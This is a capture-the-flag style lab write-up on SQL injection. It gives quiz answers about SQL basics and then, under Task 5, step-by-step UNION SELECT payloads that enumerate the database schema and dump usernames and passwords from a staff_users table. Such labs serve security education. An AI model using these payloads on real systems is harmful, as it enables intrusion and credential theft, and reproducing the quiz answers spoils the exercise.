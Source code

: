 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

#### `Task 1: Brief`
#### - What does SQL stand for?
	- Structured Query Language
	
#### `Task 2: What is a Database?`
#### - What is the acronym for the software that controls a database?
	- DBMS
	
#### - What is the name of the grid-like structure which holds the data?
	- Table
	
#### `Task 3: What is SQL?`
#### - What SQL statement is used to retrieve data?
	- SELECT
	
#### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
#### - What SQL statement is used to add data?
	- INSERT

#### `Task 4: What is SQL Injection?`
#### - What character signifies the end of an SQL query?
	- ;

#### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
- This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
- This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
- This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will find the username and password, then you can proceed inputting it in the login form.



